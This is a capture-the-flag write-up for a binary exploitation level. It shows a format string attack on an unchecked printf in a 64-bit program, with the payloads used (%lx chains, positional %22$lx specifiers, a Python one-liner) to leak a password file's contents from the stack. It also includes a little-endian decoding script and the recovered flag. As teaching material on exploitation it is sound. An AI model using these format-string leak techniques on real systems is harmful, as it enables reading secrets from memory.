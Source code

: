 In this challenge, it's immediately apparent that we can attempt a format string attack,
as there's an insecure call to printf here:

```c
if (strncmp(flag, s2, 41)) {
    printf(s);
    puts(" does not have access!");
    exit(1);
  }
```

For more details on format string attacks,
see especially [level 3](https://github.com/Sleleu/Rainfall/tree/main/level3),
[level 4](https://github.com/Sleleu/Rainfall/tree/main/level4), and [level 5](https://github.com/Sleleu/Rainfall/tree/main/level5) 
of the previous [Rainfall](https://github.com/Sleleu/Rainfall) project.

It quickly becomes clear that it's a 64-bit executable considering the addresses look like this: `0x0000000000400a75`

Source: https://lettieri.iet.unipi.it/hacking/format-strings.pdf
>The simplest way to exploit a format string vulnerability is to leak information
>from the stack of the process under attack. On 32b systems, a sequence of
>%x specifiers will cause printf() to print successive lines from the stack.
>On 64b systems, **the first 5 %lx will print the contents of the rsi, rdx, rcx, r8,
>and r9**, and any additional %lx will start printing successive stack lines.
>By studying the binary, or simply by observing the output, the attacker
>may be able to determine which of these lines contains the stack canary.
>On 32b systems the canary can be read with %x, **but on 64b you need %lx,
>because %x will only read 4 bytes in both systems.**

Indeed, it's important to understand that with a 64-bit architecture, 
the printf pointer advances not by 4 bytes but by 8 bytes at a time. 
For example, if we try to print the stack with %x flags:

```bash
--[ Username: %x %x %x %x %x %x %x %x %x %x %x %x %x
--[ Password: AAAABBBBCCCCDDDD
*****************************************
ffffe500 0 41 2a2a2a2a 2a2a2a2a ffffe6f8 f7ff9a08 41414141 43434343 0 0 0 0 does not have access!
```

Only the 'AAAA' and 'CCCC' values were printed, since this flag only reads 4 bytes. 
Using %lx:

```bash
--[ Username: %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx
--[ Password: AAAABBBBCCCCDDDD
*****************************************
7fffffffe500 0 41 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 7fffffffe6f8 1f7ff9a08 4242424241414141 4444444443434343 0 0 0 does not have access!
```

We can see all our values correctly.

Since we control the 8th formatter, we might attempt a format string attack + GOT overwrite on the `exit()` function, 
but what for since the flag is already present in the stack!

```C
  stream = fopen("/home/users/level03/.pass", "r");
  if ( !stream ) {
    fwrite("ERROR: failed to open password file\n", 1uLL, 0x24uLL, stderr);
    exit(1);
  }
  v9 = fread(flag, 1, 41, stream);
```


Trying to go as far back as possible:
```bash
level02@OverRide:~$ (python -c 'print "%lx " * 40') | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
7fffffffe500 0 20 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 7fffffffe6f8 1f7ff9a08 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 20786c2520 0 0 0 0 100000000 0 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 does not have access!
```

We see a series of values on the stack, notably these repeating values: `786c2520786c2520` which mean `%lx %lx`, 
until we get a series of values that can be read as a string: 
`756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873`

However, we can't go any further like this, and these values that strongly resemble the flag we're 
looking for are only 8*4 = 32 characters, yet we know the flag size, which must be 41 bytes. 
To reach this size, we can go back up the stack from the 22nd %lx, 
we have to specify since the code doesn't allow us to go that far:

```bash
level02@OverRide:~$ (python -c 'print "%22$lx %23$lx %24$lx %25$lx %26$lx"') | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d does not have access!
```

If we try to directly convert these values to str to get the flag, we'll fail because it's in little endian. 
So, we can either do it manually with, for example:

- https://codebeautify.org/hex-string-converter
- https://blockchain-academy.hs-mittweida.de/litte-big-endian-converter/
  
Or by writing a simple script:

```python
#!/usr/bin/python3
import argparse

def parse_arguments():
    parser = argparse.ArgumentParser()
    parser.usage = "./script.py [-h] '6de60408 ffe60408 ...'"
    parser.add_argument("hex_str", help="hex string to convert from little endian to big endian, and print to string value.")
    return (parser.parse_args())  

def big_to_little_endian(hex_str: str):
    flag = ""
    for val in hex_str.split():
        converted_value = bytes.fromhex(val)[::-1]
        flag += converted_value.decode("utf-8")
    return flag

if __name__ == "__main__":
    try:
        args = parse_arguments()
        flag = big_to_little_endian(args.hex_str)
        print(f"Flag: {flag}")
    except (ValueError, IndexError) as e:
        print(f"./script.py: {e}")
```

And here's the flag!
```bash
./script.py "756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d"
Flag: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
